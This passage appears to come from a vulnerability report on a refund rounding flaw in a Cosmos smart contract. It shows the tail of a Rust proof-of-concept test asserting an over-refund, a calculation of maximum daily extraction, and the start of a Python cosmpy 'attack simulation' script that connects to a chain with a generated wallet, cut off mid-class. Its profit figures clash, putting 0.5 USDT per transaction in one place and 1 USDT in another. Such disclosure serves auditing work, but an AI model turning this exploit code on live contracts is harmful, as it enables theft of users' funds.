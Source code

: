 ```rust
                        None
                    }
                } else {
                    None
                }
            })
            .expect("Refund should exist");

        // Vulnerability proof:
        // If estimation.result_quantity = 990.5 USDT
        // Then required_input = 990 + 1 = 991 USDT
        // Vulnerable refund = 1000 - 990.5 = 9.5 USDT
        // Correct refund = 1000 - 991 = 9 USDT
        // Stolen = 0.5 USDT per transaction

        println!("💰 Exploit successful!");
        println!("Refunded amount: {} USDT", refund_msg.amount.u128() / 1_000000);
        println!("This refund is higher than it should be!");
        
        // Verify over-refund
        assert!(refund_msg.amount > Uint128::new(9_000000), 
                "Vulnerability confirmed: Over-refund detected");
    }

    #[test]
    fn calculate_maximum_extraction() {
        let blocks_per_day = 14_400;
        let transactions_per_block = 100;
        let profit_per_transaction = 1_000000; // 1 USDT in micro units

        let daily_extraction = blocks_per_day * transactions_per_block * profit_per_transaction;
        
        println!("🚨 Maximum daily extraction: {} USDT", daily_extraction / 1_000000);
        println!("📊 Annual impact: {} million USDT", 
                 (daily_extraction * 365) / 1_000000 / 1_000000);

        assert_eq!(daily_extraction, 1_440_000_000000, "1.44M USDT per day");
    }
}
```

### Attack Simulation Script

```python
#!/usr/bin/env python3
"""
Proof of Concept: Refund Vulnerability Exploitation
WARNING: For educational/testing purposes only
"""

import json
from cosmpy.aerial.client import LedgerClient
from cosmpy.aerial.wallet import LocalWallet
from cosmpy.aerial.tx import Transaction

class RefundExploit:
    def __init__(self, rpc_url, contract_addr):
        self.client = LedgerClient(rpc_url)
        self.contract = contract_addr
        self.wallet = LocalWallet.generate()
        
    def find_vulnerable_routes(self):
        """Identify routes where first hop uses quote as input"""
```